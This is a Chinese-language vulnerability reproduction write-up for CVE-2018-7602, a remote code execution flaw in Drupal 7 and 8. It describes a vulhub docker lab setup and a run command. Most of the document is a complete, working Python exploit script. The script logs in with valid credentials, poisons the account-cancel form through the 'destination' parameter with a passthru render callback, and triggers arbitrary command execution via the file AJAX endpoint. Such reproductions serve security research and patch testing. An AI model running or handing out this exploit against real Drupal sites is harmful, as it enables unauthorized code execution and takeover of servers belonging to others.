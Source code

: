 （CVE-2018-7602）Drupal 远程代码执行漏洞
========================================

一、漏洞简介
------------

Drupal
7.x版本和8.x版本中的存在存在远程代码执行漏洞。远程攻击者可利用该中断执行任意代码。

二、漏洞影响
------------

Drupal 7.x版本和8.x

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 7.57的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8081/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7602](https://github.com/ianxtianxt/CVE-2018-7600)的PoC。

如下图所示，执行以下命令即可复现该漏洞。示例命令为
`id`，如图红框中显示，可以执行该命令。

    # "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
    python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/

![](resource/(CVE-2018-7602)Drupal远程代码执行漏洞/media/rId27.png)

### CVE-2018-7602.py

    #!/usr/bin/env python3

    import requests
    import argparse
    from bs4 import BeautifulSoup

    def get_args():
      parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                        epilog= '''
                        This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                        using an valid account and poisoning the cancel account form (user_cancel_confirm_form) 
                        with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                        ''')

      parser.add_argument("user", help="Username")
      parser.add_argument("password", help="Password")
      parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
      parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
      parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
      parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
      args = parser.parse_args()
      return args

    def pwn_target(target, username, password, function, command, proxy):
      requests.packages.urllib3.disable_warnings()
      session = requests.Session()
      proxyConf = {'http': proxy, 'https': proxy}
      try:
        print('[*] Creating a session using the provided credential...')
        get_params = {'q':'user/login'}
        post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
        print('[*] Finding User ID...')
        session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        get_params = {'q':'user'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
        if ("?q=" in user_id):
          user_id = user_id.split("=")[1]
        if(user_id):
          print('[*] User ID found: ' + user_id)
        print('[*] Poisoning a form using \'destination\' and including it in cache.')
        get_params = {'q': user_id + '/cancel'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_token = form.find('input', {'name': 'form_token'}).get('value')
        get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
        post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
        if form_build_id:
            print('[*] Poisoned form ID: ' + form_build_id)
            print('[*] Triggering exploit to execute: ' + command)
            get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
            post_params = {'form_build_id':form_build_id}
            r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
            parsed_result = r.text.split('[{"command":"settings"')[0]
            print(parsed_result)
      except:
        print("ERROR: Something went wrong.")
        raise

    def main():
      print ()
      print ('===================================================================================')
      print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
      print ('|                                   by pimps                                      |')
      print ('===================================================================================\n')

      args = get_args() # get the cl args
      pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


    if __name__ == '__main__':
      main()

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7602/
